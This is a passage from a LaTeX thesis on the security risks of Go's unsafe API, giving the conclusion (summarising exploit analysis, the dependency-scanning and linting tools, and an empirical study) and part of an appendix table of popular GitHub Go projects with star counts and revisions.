\chapter{Conclusion}\label{ch:conclusion}

In this thesis, a detailed study of the \unsafe{} \acrshort{API} provided by Google's Go programming language with
respect to a security context was conducted.
A thorough analysis of the dangers that come with its usage was presented including proof-of-concept exploits that show
how possible vulnerabilities can be exploited in practice.
This analysis particularly looked at \checkNum{three} main areas of dangers.
Buffer overflow vulnerabilities, which can be introduced by constructing slice values from unsuitable buffers, can lead
to severe consequences such as code injection or information leak vulnerabilities.
Incorrect casting of slices through the internal slice representation used by the Go runtime can cause the garbage
collector to miss a live value, or the Go compiler's escape analysis algorithm to misplace a value on the stack rather
than the heap, both of which can cause non-deterministic or deterministic use-after-free vulnerabilities, respectively.
Types with platform-dependent types such as \textit{int} can cause problems when they are converted to other types
directly because the underlying memory might not align when the project is compiled for a different architecture or
the memory layout of the types after compilation changed in future versions of Go.

Thus, it is needed to audit usages of the \unsafe{} API in projects.
Such usages can be introduced through dependencies, in fact most are.
Therefore, dependencies must be checked, too.
\toolGeiger{}, a novel static code analysis tool to help developers with this task, was presented.
It can identify and count \unsafe{} usages in Go packages including their dependencies, thus allowing developers to
focus their audit efforts to the right packages.
Such a tool was previously available for other languages, but not for Go.
Using \toolGeiger{}, we presented an empirical study on the current state of \unsafe{} usage in \projsAnalyzed{} of the
top \projsTotal{} most-starred open-source Go projects on \github{}.
This study revealed that \percentageUnsafeProjects{} of the projects contained \unsafe{} usages, however
\percentageUnsafeTransitiveWithDependencies{} included \unsafe{} code through third-party dependencies.
Of the \packagesAnalyzed{} packages that were analyzed in total, \percentageUnsafePackages{} contained \unsafe{} code.
The average depth in the dependency tree of \averageUnsafeImportDepth{} showed that it is very hard to manually audit
the complete code base including external libraries, highlighting the importance of support by developer tools for this
task.

We created a novel data set of \numberLabeledCodeSnippets{} manually labelled \unsafe{} code samples.
They are classified in two dimensions on what is being done and for what purpose.
This data set showed that the the most common reasons for using \unsafe{} are optimizations and efficiency,
interoperability with external libraries, or to circumvent language limitations.

Furthermore, \toolSafer{} was presented, a novel \toolVet{}-style linter that is focused around \unsafe{} code.
It can identify \checkNum{two} dangerous and common usage patterns: incorrect conversions of slice and string header
values to actual slices or strings, which can introduce use-after-free vulnerabilities, and in-place conversions of
types that have platform-dependent sizes.
The performance of \toolSafer{} was evaluated both on the new labeled data set of \unsafe{} usages and on a set of
open-source Go packages, selected by their number of \unsafe{} usages and lines of code, which were reviewed manually.
\toolSafer{} achieved excellent results with an accuracy of \goSaferEvaluationDatasetGosaferAccuracy{} on the labeled
data set and \goSaferEvaluationPackagesGosaferAccuracy{} on the set of packages.
Its high precision allows it to be used productively.
\toolSafer{} thus is a valuable tool that can be added to existing tools like \toolVet{} and \toolGosec{}, which are
not good in detecting \unsafe{} misuses with a large number of false negatives and false positives, respectively.
Using \toolSafer{}, more than \numberBugsFixedRounded{} bugs in open-source Go libraries were found and \numberPRs{}
pull requests to the authors to fix them have been submitted.

In summary, \unsafe{} code is commonly used in the most popular Go projects for a number of reasons.
Using the novel static analysis tools, developers can embrace this fact and mitigate the risks that come with it by
effectively localizing and checking \unsafe{} usages in their own and third-party code.
Additionally, the novel evidence of how to actually exploit possible vulnerabilities related to \unsafe{} code helps
developers to understand the dangers and thus avoid them.


%% appendix chapters
\appendix
%% -----------------------------------------------------------------------------

\chapter{Appendix}\label{ch:appendix}

\tablecaption[Open-source Go projects on \github{} used for the empirical study on \unsafe{}]
    {Open-source Go projects on \github{} used for the empirical study on \unsafe{}~\newline \tiny ~\newline \footnotesize
    \underline{(blank)}: included for analysis, \underline{nm}: no module support, \underline{bf}: build failed
    \tiny ~\newline}
\label{tbl:projects}

\tablefirsthead{%
    \toprule
    {}  & \textbf{Name} &  \textbf{Stars} &  \textbf{Forks} & \textbf{Revision} & {} \\
    \midrule}
\tablehead{%
    \multicolumn{5}{c}%
    {{\bfseries  Continued}} \\
    \midrule
    {}  & \textbf{Name} &  \textbf{Stars} &  \textbf{Forks} & \textbf{Revision} & {} \\
    \midrule}

\tabletail{%
    \midrule \multicolumn{5}{r}{{Continued}} \\}
\tablelasttail{%
    \bottomrule}

% adjust font size so that the table does not spill into the right margin
{\fontsize{5.1}{6}\selectfont
    \begin{supertabular}{llrrll}
        % generated by Pandas in figures-thesis.ipynb

        1   &                          golang/go & 72,988 & 10,460 &  \texttt{6bf2eea62a} &  \textit{nm} \\
        \rowcolor{verylightgray}
        2   &              kubernetes/kubernetes & 66,512 & 23,806 &  \texttt{fb9e1946b0} &              \\
        3   &                          moby/moby & 57,189 & 16,540 &  \texttt{763f9e799b} &  \textit{nm} \\
        \rowcolor{verylightgray}
        4   &                 avelino/awesome-go & 54,733 &  7,267 &  \texttt{3e27d63fe2} &  \textit{nm} \\
        5   &                      gohugoio/hugo & 44,317 &  5,049 &  \texttt{6a3e89743c} &              \\
        \rowcolor{verylightgray}
        6   &                      gin-gonic/gin & 38,459 &  4,441 &  \texttt{5e40c1d49c} &              \\
        7   &                       fatedier/frp & 36,184 &  6,860 &  \texttt{2406ecdfea} &              \\
        \rowcolor{verylightgray}
        8   &    astaxie/build-web-applica\ldots & 34,787 &  9,516 &  \texttt{606abd586a} &  \textit{nm} \\
        9   &                          gogs/gogs & 34,522 &  4,030 &  \texttt{7e99a6ce42} &              \\
        \rowcolor{verylightgray}
        10  &                   v2ray/v2ray-core & 31,853 &  7,270 &  \texttt{edb4fed387} &              \\
        11  &                syncthing/syncthing & 31,357 &  2,686 &  \texttt{04ff890263} &              \\
        \rowcolor{verylightgray}
        12  &                       etcd-io/etcd & 31,265 &  6,523 &  \texttt{9b6c3e3378} &              \\
        13  &              prometheus/prometheus & 31,006 &  4,725 &  \texttt{83619aa9ac} &              \\
        \rowcolor{verylightgray}
        14  &                       junegunn/fzf & 29,549 &  1,207 &  \texttt{f81feb1e69} &              \\
        15  &                 containous/traefik & 28,977 &  3,178 &  \texttt{7928e6d0cd} &              \\
        \rowcolor{verylightgray}
        16  &                  caddyserver/caddy & 28,739 &  2,334 &  \texttt{9415feca7c} &              \\
        17  &               ethereum/go-ethereum & 26,010 &  9,492 &  \texttt{389da6aa48} &              \\
        \rowcolor{verylightgray}
        18  &                 FiloSottile/mkcert & 24,272 &  1,003 &  \texttt{a2b1208e9c} &              \\
        19  &                      astaxie/beego & 23,997 &  4,825 &  \texttt{8f3d1c5f42} &              \\
        \rowcolor{verylightgray}
        20  &                 iikira/BaiduPCS-Go & 23,924 &  3,974 &  \texttt{a829eef6b0} &              \\
        21  &                       pingcap/tidb & 23,680 &  3,572 &  \texttt{777907bcee} &              \\
        \rowcolor{verylightgray}
        22  &                        istio/istio & 22,946 &  4,312 &  \texttt{13855a94f9} &              \\
        23  &                hashicorp/terraform & 22,151 &  5,729 &  \texttt{01f91316da} &              \\
        \rowcolor{verylightgray}
        24  &                        minio/minio & 22,065 &  2,263 &  \texttt{231c5cf6de} &              \\
        25  &                      rclone/rclone & 21,733 &  1,733 &  \texttt{764b90a519} &              \\
        \rowcolor{verylightgray}
        26  &  unknwon/the-way-to-go\_ZH\_\ldots & 21,596 &  5,939 &  \texttt{eec6f83fcb} &  \textit{nm} \\
        27  &                        drone/drone & 21,111 &  2,058 &  \texttt{aa84e311c0} &              \\
        \rowcolor{verylightgray}
        28  &                     wagoodman/dive & 20,197 &    727 &  \texttt{103b05f3c0} &              \\
        29  &                     go-gitea/gitea & 19,872 &  2,342 &  \texttt{9f55769804} &              \\
        \rowcolor{verylightgray}
        30  &                         github/hub & 19,698 &  2,039 &  \texttt{93537d4575} &              \\
        31  &                   hashicorp/consul & 19,249 &  3,308 &  \texttt{6c444ba24c} &              \\
        \rowcolor{verylightgray}
        32  &                influxdata/influxdb & 18,970 &  2,680 &  \texttt{41156ca646} &              \\
        33  &              inconshreveable/ngrok & 18,634 &  3,287 &  \texttt{a8e7fa4863} &  \textit{nm} \\
        \rowcolor{verylightgray}
        34  &                        jinzhu/gorm & 18,545 &  2,144 &  \texttt{7ea143b548} &              \\
        35  &                kubernetes/minikube & 18,317 &  2,982 &  \texttt{ea20609a3a} &              \\
        \rowcolor{verylightgray}
        36  &    mattermost/mattermost-ser\ldots & 18,277 &  4,157 &  \texttt{e83cc7357c} &              \\
        37  &              cockroachdb/cockroach & 18,260 &  2,177 &  \texttt{e148388d9e} &  \textit{nm} \\
        \rowcolor{verylightgray}
        38  &                       kataras/iris & 18,217 &  2,028 &  \texttt{b6ac39480b} &              \\
        39  &                          nsqio/nsq & 17,777 &  2,350 &  \texttt{8db8c50e5e} &              \\
        \rowcolor{verylightgray}
        40  &                      openfaas/faas & 17,681 &  1,463 &  \texttt{6841fba36b} &  \textit{nm} \\
        41  &                      labstack/echo & 17,310 &  1,561 &  \texttt{43e32ba83d} &              \\
        \rowcolor{verylightgray}
        42  &                          helm/helm & 17,197 &  5,126 &  \texttt{15d9a6190f} &              \\
        43  &                        spf13/cobra & 17,160 &  1,472 &  \texttt{94a87a7b83} &              \\
        \rowcolor{verylightgray}
        44  &                         go-kit/kit & 17,032 &  1,783 &  \texttt{81a2d1f550} &              \\
        45  &             yeasy/docker\_practice & 16,880 &  4,642 &  \texttt{ddec6641b9} &  \textit{nm} \\
        \rowcolor{verylightgray}
        46  &              jesseduffield/lazygit & 16,418 &    581 &  \texttt{cf5cefb2d6} &              \\
        47  &                    hashicorp/vault & 15,810 &  2,447 &  \texttt{2b8cac7260} &              \\
        \rowcolor{verylightgray}
        48  &           jesseduffield/lazydocker & 15,109 &    565 &  \texttt{10617da560} &              \\
        49  &                    sirupsen/logrus & 14,940 &  1,674 &  \texttt{6699a89a23} &              \\
        \rowcolor{verylightgray}
        50  &               joewalnes/websocketd & 14,653 &    829 &  \texttt{2190c8ab4c} &              \\
        51  &                     tsenart/vegeta & 14,648 &    938 &  \texttt{d9b795aec8} &              \\
        \rowcolor{verylightgray}
        52  &                    rancher/rancher & 14,344 &  1,758 &  \texttt{56a464049e} &              \\
        53  &                     go-delve/delve & 13,968 &  1,363 &  \texttt{4a9b3419d1} &              \\
        \rowcolor{verylightgray}
        54  &                        yudai/gotty & 13,964 &  1,032 &  \texttt{a080c85cbc} &  \textit{nm} \\
        55  &                         urfave/cli & 13,795 &  1,150 &  \texttt{477292c8d4} &              \\
        \rowcolor{verylightgray}
        56  &                     zyedidia/micro & 13,488 &    657 &  \texttt{8956448fca} &              \\
        57  &                 cayleygraph/cayley & 13,411 &  1,208 &  \texttt{ab2941b35e} &              \\
        \rowcolor{verylightgray}
        58  &                        helm/charts & 13,315 & 14,774 &  \texttt{f30b0d5c24} &  \textit{nm} \\
        59  &                   dgraph-io/dgraph & 13,262 &    946 &  \texttt{4f0645ec7d} &              \\
        \rowcolor{verylightgray}
        60  &                         golang/dep & 13,213 &  1,104 &  \texttt{87f309484f} &  \textit{nm} \\
        61  &                     micro/go-micro & 13,093 &  1,368 &  \texttt{3f354f3c30} &              \\
        \rowcolor{verylightgray}
        62  &                        rancher/k3s & 12,868 &    973 &  \texttt{b237637338} &  \textit{bf} \\
        63  &                     buger/goreplay & 12,826 &  1,244 &  \texttt{5c5ef3ac15} &              \\
        \rowcolor{verylightgray}
        64  &                  tmrts/go-patterns & 12,758 &  1,193 &  \texttt{f978e42036} &  \textit{nm} \\
        65  &    chai2010/advanced-go-prog\ldots & 12,696 &  2,105 &  \texttt{00bc3e0868} &  \textit{bf} \\
        \rowcolor{verylightgray}
        66  &            coreybutler/nvm-windows & 12,692 &  1,252 &  \texttt{4ea3bc0c13} &  \textit{nm} \\
        67  &                   valyala/fasthttp & 12,530 &  1,041 &  \texttt{2f92c68a07} &              \\
        \rowcolor{verylightgray}
        68  &                        spf13/viper & 12,351 &  1,130 &  \texttt{13df721090} &              \\
        69  &                       ehang-io/nps & 12,243 &  2,112 &  \texttt{f391813a28} &  \textit{bf} \\
        \rowcolor{verylightgray}
        70  &                  gorilla/websocket & 11,989 &  2,047 &  \texttt{b65e62901f} &              \\
        71  &                        gorilla/mux & 11,982 &  1,208 &  \texttt{948bec34b5} &              \\
        \rowcolor{verylightgray}
        72  &                    goharbor/harbor & 11,944 &  3,194 &  \texttt{7c2bfb1378} &  \textit{nm} \\
        73  &                       xtaci/kcptun & 11,849 &  2,308 &  \texttt{912a97993e} &              \\
        \rowcolor{verylightgray}
        74  &                        revel/revel & 11,708 &  1,359 &  \texttt{a3d7a7c23c} &  \textit{nm} \\
        75  &                   txthinking/brook & 11,463 &  2,160 &  \texttt{e8f20902a9} &  \textit{nm} \\
        \rowcolor{verylightgray}
        76  &                        wtfutil/wtf & 11,461 &    632 &  \texttt{204e286caa} &              \\
        77  &                    kubernetes/kops & 11,459 &  3,583 &  \texttt{4b4dbd4285} &              \\
        \rowcolor{verylightgray}
        78  &                       grpc/grpc-go & 11,361 &  2,400 &  \texttt{e0ec2b8320} &              \\
        79  &           julienschmidt/httprouter & 11,269 &  1,078 &  \texttt{8c9f31f047} &              \\
        \rowcolor{verylightgray}
        80  &                    CodisLabs/codis & 11,106 &  2,497 &  \texttt{de1ad026e3} &  \textit{nm} \\
        81  &           quii/learn-go-with-tests & 11,075 &  1,331 &  \texttt{3e2a9c5a98} &              \\
        \rowcolor{verylightgray}
        82  &               jaegertracing/jaeger & 10,981 &  1,196 &  \texttt{06c8f7cc82} &              \\
        83  &                      gocolly/colly & 10,956 &    925 &  \texttt{556442d455} &              \\
        \rowcolor{verylightgray}
        84  &                 go-martini/martini & 10,953 &  1,104 &  \texttt{22fa46961a} &  \textit{nm} \\
        85  &                 fogleman/primitive & 10,825 &    529 &  \texttt{0373c21645} &  \textit{nm} \\
        \rowcolor{verylightgray}
        86  &                    google/cadvisor & 10,743 &  1,578 &  \texttt{8d4d5ea98d} &              \\
        87  &                        boltdb/bolt & 10,715 &  1,253 &  \texttt{fd01fc79c5} &  \textit{nm} \\
        \rowcolor{verylightgray}
        88  &                   stretchr/testify & 10,531 &    901 &  \texttt{004e3cb722} &              \\
        89  &                   peterq/pan-light & 10,492 &  2,342 &  \texttt{867eee7a92} &              \\
        \rowcolor{verylightgray}
        90  &                     iawia002/annie & 10,444 &  1,141 &  \texttt{dcf8152855} &              \\
        91  &                 hyperledger/fabric & 10,248 &  5,897 &  \texttt{41f8b0a033} &              \\
        \rowcolor{verylightgray}
        92  &                      restic/restic & 10,201 &    712 &  \texttt{cba6ad8d8e} &              \\
        93  &                   hashicorp/packer & 10,182 &  2,807 &  \texttt{193395d734} &              \\
        \rowcolor{verylightgray}
        94  &                    vitessio/vitess & 10,080 &  1,305 &  \texttt{734ed78e52} &              \\
        95  &                      google/grumpy & 10,060 &    650 &  \texttt{3ec8795918} &  \textit{nm} \\
        \rowcolor{verylightgray}
        96  &                      google/gvisor &  9,962 &    714 &  \texttt{a8c1b32660} &  \textit{bf} \\
        97  &                        bcicen/ctop &  9,945 &    381 &  \texttt{4741b276e4} &              \\
        \rowcolor{verylightgray}
        98  &                       gizak/termui &  9,864 &    613 &  \texttt{4cca61d83f} &  \textit{nm} \\
        99  &                   go-kratos/kratos &  9,844 &  2,106 &  \texttt{521d240568} &              \\
        \rowcolor{verylightgray}
        100 &                        uber-go/zap &  9,826 &    736 &  \texttt{e931a6bb13} &              \\
        101 &             hoanhan101/ultimate-go &  9,753 &    736 &  \texttt{e91ebe79b9} &              \\
        \rowcolor{verylightgray}
        102 &                       ipfs/go-ipfs &  9,721 &  1,784 &  \texttt{285d743173} &              \\
        103 &                       fyne-io/fyne &  9,719 &    445 &  \texttt{e7f1331819} &              \\
        \rowcolor{verylightgray}
        104 &    GoogleContainerTools/skaf\ldots &  9,712 &    945 &  \texttt{dc44de4d42} &              \\
        105 &                chrislusf/seaweedfs &  9,639 &  1,277 &  \texttt{6286a454c7} &              \\
        \rowcolor{verylightgray}
        106 &            dutchcoders/transfer.sh &  9,576 &    984 &  \texttt{92055f1b3c} &              \\
        107 &                       grafana/loki &  9,537 &    922 &  \texttt{10a1f28a85} &              \\
        \rowcolor{verylightgray}
        108 &                go-sql-driver/mysql &  9,522 &  1,692 &  \texttt{8c3a2d9049} &              \\
        109 &                  gopherjs/gopherjs &  9,393 &    445 &  \texttt{fce0ec30dd} &  \textit{nm} \\
        \rowcolor{verylightgray}
        110 &                       esimov/caire &  9,286 &    345 &  \texttt{8555afc75e} &              \\
        111 &                            cli/cli &  9,025 &    365 &  \texttt{675cbbc2a4} &              \\
        \rowcolor{verylightgray}
        112 &                      asciimoo/wuzz &  8,981 &    341 &  \texttt{f087795f72} &  \textit{nm} \\
        113 &                      evanw/esbuild &  8,946 &    168 &  \texttt{9863668f2f} &              \\
        \rowcolor{verylightgray}
        114 &                            rkt/rkt &  8,883 &    863 &  \texttt{171c416fac} &  \textit{nm} \\
        115 &                    Dreamacro/clash &  8,880 &  1,260 &  \texttt{3638b077cd} &              \\
        \rowcolor{verylightgray}
        116 &                     go-redis/redis &  8,861 &  1,142 &  \texttt{a999d1ecd8} &              \\
        117 &                      elastic/beats &  8,852 &  3,207 &  \texttt{df6f2169c5} &              \\
        \rowcolor{verylightgray}
        118 &                   snail007/goproxy &  8,842 &  1,792 &  \texttt{029cc0d002} &  \textit{nm} \\
        119 &                PuerkitoBio/goquery &  8,836 &    698 &  \texttt{89946c829f} &              \\
        \rowcolor{verylightgray}
        120 &                  golang/groupcache &  8,725 &  1,013 &  \texttt{8c9f03a8e5} &  \textit{nm} \\
        121 &                influxdata/telegraf &  8,644 &  3,493 &  \texttt{430854f6de} &              \\
        \rowcolor{verylightgray}
        122 &                          ory/hydra &  8,643 &    786 &  \texttt{70ab4fff18} &              \\
        123 &                Netflix/chaosmonkey &  8,626 &    629 &  \texttt{68e3282ef7} &  \textit{nm} \\
        \rowcolor{verylightgray}
        124 &            docker-slim/docker-slim &  8,620 &    294 &  \texttt{79490f5f1c} &              \\
        125 &    grpc-ecosystem/grpc-gatew\ldots &  8,523 &  1,119 &  \texttt{0a916456be} &              \\
        \rowcolor{verylightgray}
        126 &                         rakyll/hey &  8,414 &    634 &  \texttt{f3676ef133} &              \\
        127 &                       jmoiron/sqlx &  8,394 &    658 &  \texttt{ee514944af} &              \\
        \rowcolor{verylightgray}
        128 &                     dinedal/textql &  8,359 &    285 &  \texttt{1d6fef53e0} &              \\
        129 &                     emirpasic/gods &  8,352 &    955 &  \texttt{80e934ed68} &  \textit{nm} \\
        \rowcolor{verylightgray}
        130 &                    git-lfs/git-lfs &  8,213 &  1,560 &  \texttt{7dfe9fe110} &              \\
        131 &             gravitational/teleport &  8,112 &    622 &  \texttt{4bc0346518} &  \textit{nm} \\
        \rowcolor{verylightgray}
        132 &                       cyfdecyf/cow &  8,074 &  1,644 &  \texttt{41c0fb157c} &  \textit{nm} \\
        133 &                        micro/micro &  8,041 &    683 &  \texttt{d607618d5b} &              \\
        \rowcolor{verylightgray}
        134 &                          apex/apex &  8,024 &    588 &  \texttt{16c08f0eb3} &              \\
        135 &                  Masterminds/glide &  8,004 &    538 &  \texttt{b94b39d657} &  \textit{nm} \\
        \rowcolor{verylightgray}
        136 &                      sqshq/sampler &  8,003 &    385 &  \texttt{1af22f6bfd} &              \\
        137 &               kubernetes/dashboard &  7,882 &  2,214 &  \texttt{cd7a6156b1} &              \\
        \rowcolor{verylightgray}
        138 &                nats-io/nats-server &  7,757 &    762 &  \texttt{f859edaf4f} &              \\
        139 &                            apex/up &  7,753 &    314 &  \texttt{5777a4ff5f} &              \\
        \rowcolor{verylightgray}
        140 &                      github/gh-ost &  7,734 &    768 &  \texttt{4dab06e92b} &  \textit{nm} \\
        141 &                   json-iterator/go &  7,702 &    627 &  \texttt{55287ed53a} &              \\
        \rowcolor{verylightgray}
        142 &                   dgraph-io/badger &  7,702 &    615 &  \texttt{00b86b2e74} &              \\
        143 &                   dgrijalva/jwt-go &  7,697 &    699 &  \texttt{dc14462fd5} &  \textit{nm} \\
        \rowcolor{verylightgray}
        144 &           kubernetes/ingress-nginx &  7,693 &  3,667 &  \texttt{f6f695e7a1} &              \\
        145 &                        flynn/flynn &  7,625 &    567 &  \texttt{755c95684f} &              \\
        \rowcolor{verylightgray}
        146 &                         go-chi/chi &  7,525 &    503 &  \texttt{5704d7ee98} &  \textit{nm} \\
        147 &              future-architect/vuls &  7,505 &    827 &  \texttt{835dc08049} &              \\
        \rowcolor{verylightgray}
        148 &                         andlabs/ui &  7,487 &    674 &  \texttt{867a9e5a49} &  \textit{nm} \\
        149 &                   openshift/origin &  7,466 &  4,288 &  \texttt{1bc7b9e328} &  \textit{nm} \\
        \rowcolor{verylightgray}
        150 &                    gomodule/redigo &  7,428 &  1,065 &  \texttt{2eadaa0e59} &              \\
        151 &                     ahmetb/kubectx &  7,413 &    501 &  \texttt{401188fefd} &              \\
        \rowcolor{verylightgray}
        152 &                       therecipe/qt &  7,393 &    543 &  \texttt{5074eb6d8c} &  \textit{bf} \\
        153 &                      talk-go/night &  7,386 &    711 &  \texttt{cdd02dcd04} &              \\
        \rowcolor{verylightgray}
        154 &               ardanlabs/gotraining &  7,350 &  1,503 &  \texttt{86a37cbcfd} &              \\
        155 &                bettercap/bettercap &  7,293 &    745 &  \texttt{6725a2aa53} &              \\
        \rowcolor{verylightgray}
        156 &    unknwon/go-fundamental-pr\ldots &  7,272 &  1,884 &  \texttt{5542bcd8fd} &  \textit{nm} \\
        157 &                          rook/rook &  7,208 &  1,472 &  \texttt{ff90fa7098} &              \\
        \rowcolor{verylightgray}
        158 &                sjwhitworth/golearn &  7,199 &  1,009 &  \texttt{3e43e74895} &  \textit{nm} \\
        159 &                    attic-labs/noms &  7,194 &    266 &  \texttt{39057233bf} &              \\
        \rowcolor{verylightgray}
        160 &                    google/go-cloud &  7,052 &    544 &  \texttt{bee021b0e3} &              \\
        161 &               claudiodangelis/qrcp &  7,018 &    411 &  \texttt{c6b4c7454b} &              \\
        \rowcolor{verylightgray}
        162 &              kelseyhightower/confd &  6,992 &  1,178 &  \texttt{cccd334562} &  \textit{nm} \\
        163 &                opencontainers/runc &  6,929 &  1,297 &  \texttt{4f0bdafc8a} &              \\
        \rowcolor{verylightgray}
        164 &                     tidwall/tile38 &  6,883 &    413 &  \texttt{9c6be0f78e} &              \\
        165 &                     keybase/client &  6,870 &    956 &  \texttt{9e24cdae97} &  \textit{nm} \\
        \rowcolor{verylightgray}
        166 &                      cjbassi/gotop &  6,819 &    272 &  \texttt{61ed1ad0c3} &              \\
        167 &                      casbin/casbin &  6,819 &    755 &  \texttt{3df797354a} &              \\
        \rowcolor{verylightgray}
        168 &                       derailed/k9s &  6,805 &    365 &  \texttt{68da73952e} &              \\
        169 &            filebrowser/filebrowser &  6,794 &  1,058 &  \texttt{6e5405eeed} &              \\
        \rowcolor{verylightgray}
        170 &    polaris1119/The-Golang-St\ldots &  6,783 &  1,644 &  \texttt{802818f4f3} &  \textit{nm} \\
        171 &                     urfave/negroni &  6,666 &    540 &  \texttt{e1cd4e5018} &              \\
        \rowcolor{verylightgray}
        172 &                    golang/protobuf &  6,663 &  1,248 &  \texttt{d04d7b157b} &              \\
        173 &    shadowsocks/shadowsocks-g\ldots &  6,662 &  3,577 &  \texttt{3e585ff906} &  \textit{nm} \\
        \rowcolor{verylightgray}
        174 &                 tylertreat/comcast &  6,649 &    296 &  \texttt{36c754a9a7} &  \textit{nm} \\
        175 &                         quay/clair &  6,650 &    840 &  \texttt{db2e7d5c0c} &              \\
        \rowcolor{verylightgray}
        176 &                  blevesearch/bleve &  6,586 &    506 &  \texttt{2b80a2aedf} &              \\
        177 &                  gdrive-org/gdrive &  6,582 &    834 &  \texttt{8e12e1c1c9} &  \textit{nm} \\
        \rowcolor{verylightgray}
        178 &                      loadimpact/k6 &  6,567 &    372 &  \texttt{479707f90e} &  \textit{nm} \\
        179 &                   usefathom/fathom &  6,479 &    287 &  \texttt{69baac5c4a} &  \textit{nm} \\
        \rowcolor{verylightgray}
        180 &                  hybridgroup/gobot &  6,469 &    815 &  \texttt{9d38858276} &              \\
        181 &                    mailhog/MailHog &  6,455 &    457 &  \texttt{d70a557574} &  \textit{nm} \\
        \rowcolor{verylightgray}
        182 &                          dapr/dapr &  6,447 &    380 &  \texttt{592af5afb9} &              \\
        183 &                      tidwall/gjson &  6,424 &    420 &  \texttt{f042915ca1} &              \\
        \rowcolor{verylightgray}
        184 &                henrylee2cn/pholcus &  6,423 &  1,581 &  \texttt{bf4a87b9aa} &  \textit{bf} \\
        185 &                 graphql-go/graphql &  6,419 &    551 &  \texttt{116f19d099} &              \\
        \rowcolor{verylightgray}
        186 &                     sosedoff/pgweb &  6,398 &    468 &  \texttt{111b1720b4} &  \textit{nm} \\
        187 &                     tomnomnom/gron &  6,383 &    137 &  \texttt{602235e754} &              \\
        \rowcolor{verylightgray}
        188 &                      fabiolb/fabio &  6,355 &    555 &  \texttt{c034d4fae1} &              \\
        189 &                   jroimartin/gocui &  6,324 &    404 &  \texttt{c055c87ae8} &  \textit{nm} \\
        \rowcolor{verylightgray}
        190 &                  tinygo-org/tinygo &  6,305 &    298 &  \texttt{a9ba6ebad9} &  \textit{bf} \\
        191 &    360EntSecGroup-Skylar/exc\ldots &  6,301 &    685 &  \texttt{2ae631376b} &              \\
        \rowcolor{verylightgray}
        192 &                      inlets/inlets &  6,295 &    351 &  \texttt{ae73b7d20d} &  \textit{nm} \\
        193 &                     schachmat/wego &  6,291 &    396 &  \texttt{994e4f1417} &  \textit{nm} \\
        \rowcolor{verylightgray}
        194 &                  linuxkit/linuxkit &  6,276 &    791 &  \texttt{9d5a22d44a} &  \textit{nm} \\
        195 &                      direnv/direnv &  6,249 &    324 &  \texttt{1cf67502b5} &              \\
        \rowcolor{verylightgray}
        196 &               crawlab-team/crawlab &  6,245 &    853 &  \texttt{d75a993121} &  \textit{nm} \\
        197 &                    hashicorp/nomad &  6,207 &  1,078 &  \texttt{5be192fac3} &  \textit{nm} \\
        \rowcolor{verylightgray}
        198 &                        XiaoMi/soar &  6,138 &    894 &  \texttt{078704875f} &  \textit{nm} \\
        199 &                    coredns/coredns &  6,075 &  1,017 &  \texttt{bc2ba28865} &              \\
        \rowcolor{verylightgray}
        200 &                       go-xorm/xorm &  6,044 &    763 &  \texttt{f39e5d9bfd} &              \\
        201 &                        robfig/cron &  6,029 &    975 &  \texttt{6a8421bcff} &              \\
        \rowcolor{verylightgray}
        202 &            DNSCrypt/dnscrypt-proxy &  6,017 &    579 &  \texttt{3d5f877058} &              \\
        203 &                        cheat/cheat &  5,970 &    619 &  \texttt{8e602b0e93} &              \\
        \rowcolor{verylightgray}
        204 &    GoogleContainerTools/kani\ldots &  5,962 &    582 &  \texttt{e0f93578b6} &              \\
        205 &                             lib/pq &  5,922 &    735 &  \texttt{d408f9c948} &              \\
        \rowcolor{verylightgray}
        206 &    GoesToEleven/GolangTraini\ldots &  5,918 &  2,303 &  \texttt{afa19f5c43} &  \textit{nm} \\
        207 &                     docker/machine &  5,895 &  1,708 &  \texttt{b170508bf4} &  \textit{nm} \\
        \rowcolor{verylightgray}
        208 &                          peco/peco &  5,891 &    188 &  \texttt{9c4464680c} &              \\
        209 &                         rancher/os &  5,885 &    606 &  \texttt{2ec7f4fc9e} &  \textit{nm} \\
        \rowcolor{verylightgray}
        210 &                      rqlite/rqlite &  5,884 &    322 &  \texttt{5f762f01ec} &              \\
        211 &            open-falcon/falcon-plus &  5,874 &  1,332 &  \texttt{850e7f79d4} &  \textit{nm} \\
        \rowcolor{verylightgray}
        212 &                            xo/usql &  5,871 &    195 &  \texttt{bdff722f7b} &              \\
        213 &               zricethezav/gitleaks &  5,871 &    470 &  \texttt{e0f6399d5c} &              \\
        \rowcolor{verylightgray}
        214 &                   weaveworks/weave &  5,840 &    577 &  \texttt{0d4099bba5} &  \textit{nm} \\
        215 &                docker/classicswarm &  5,837 &  1,137 &  \texttt{613bdb260e} &  \textit{nm} \\
        \rowcolor{verylightgray}
        216 &                   google/go-github &  5,832 &  1,283 &  \texttt{a86f060e61} &              \\
        217 &              containrrr/watchtower &  5,832 &    365 &  \texttt{cd21516709} &              \\
        \rowcolor{verylightgray}
        218 &               teh-cmc/go-internals &  5,831 &    253 &  \texttt{dd22691012} &  \textit{nm} \\
        219 &                     aws/aws-sdk-go &  5,811 &  1,476 &  \texttt{645efefb5b} &              \\
        \rowcolor{verylightgray}
        220 &                     Shopify/sarama &  5,806 &  1,047 &  \texttt{b5764af1c4} &              \\
        221 &                   thanos-io/thanos &  5,793 &    777 &  \texttt{63ef382fc3} &              \\
        \rowcolor{verylightgray}
        222 &                         pkg/errors &  5,792 &    419 &  \texttt{614d223910} &  \textit{nm} \\
        223 &                  kubeless/kubeless &  5,742 &    586 &  \texttt{78d3cedd20} &              \\
        \rowcolor{verylightgray}
        224 &                      pulumi/pulumi &  5,727 &    299 &  \texttt{45e1917a30} &  \textit{nm} \\
        225 &                      ginuerzh/gost &  5,726 &  1,101 &  \texttt{2707a8f0a9} &              \\
        \rowcolor{verylightgray}
        226 &              jetstack/cert-manager &  5,671 &  1,001 &  \texttt{78ee463a98} &              \\
        227 &              containerd/containerd &  5,656 &  1,169 &  \texttt{8e9ba8376e} &  \textit{nm} \\
        \rowcolor{verylightgray}
        228 &                        tools/godep &  5,640 &    478 &  \texttt{ce0bfadeb5} &  \textit{nm} \\
        229 &             smartystreets/goconvey &  5,627 &    425 &  \texttt{505e419363} &              \\
        \rowcolor{verylightgray}
        230 &              goreleaser/goreleaser &  5,622 &    398 &  \texttt{c31cc85cb2} &              \\
        231 &                  gobuffalo/buffalo &  5,598 &    440 &  \texttt{b30b19999a} &              \\
        \rowcolor{verylightgray}
        232 &    Workiva/go-datastructures\ldots &  5,598 &    654 &  \texttt{0819bcaf26} &  \textit{nm} \\
        233 &                      argoproj/argo &  5,583 &    909 &  \texttt{09092147cf} &              \\
        \rowcolor{verylightgray}
